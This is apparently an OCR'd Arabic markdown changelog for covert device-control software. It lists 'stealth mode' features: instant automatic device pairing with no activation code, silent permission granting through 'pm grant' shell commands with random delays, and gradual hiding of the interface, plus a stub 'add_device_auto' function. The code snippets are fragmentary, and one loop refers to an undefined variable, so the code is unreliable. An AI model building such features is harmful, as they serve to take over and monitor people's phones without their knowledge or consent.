# 🥷 تحسينات وضع التخفي والربط التلقائي

## 🎯 التحسينات المطبقة

### 1. **الربط التلقائي الفوري**
```python
# قبل التحسين:
- يحتاج كود تفعيل
- يظهر معرف الجهاز
- خطوات متعددة

# بعد التحسين:
- ربط تلقائي فوري
- بدون أكواد أو معرفات
- خطوة واحدة فقط
```

### 2. **منح الأذونات بشكل سلس وخفي**
```javascript
// قبل التحسين:
for (const permission of permissions) {
    await executeShellCommand(`pm grant ${permission}`);
}

// بعد التحسين:
for (let i = 0; i < permissions.length; i++) {
    const delay = Math.random() * 1000 + 500;
    await new Promise(resolve => setTimeout(resolve, delay));
    await executeShellCommand(`pm grant ${permission}`);
}
```

### 3. **إخفاء واجهة المستخدم بشكل تدريجي**
```javascript
// إخفاء تدريجي للعناصر
elements.forEach((el, index) => {
    setTimeout(() => {
        el.style.display = 'none';
        el.style.visibility = 'hidden';
        el.style.opacity = '0';
        el.style.transition = 'opacity 0.3s ease';
    }, index * 10);
});
```

## 🔧 الميزات الجديدة

### 1. **دالة add_device_auto**
```python
def add_device_auto(self, user_id: int, device_id: str) -> bool:
    """إضافة جهاز جديد - ربط تلقائي بدون كود تفعيل"""
    # إضافة الجهاز بدون كود تفعيل
    # status: 'auto_pending'
    # activation_code: 'AUTO_ACTIVATION'
```
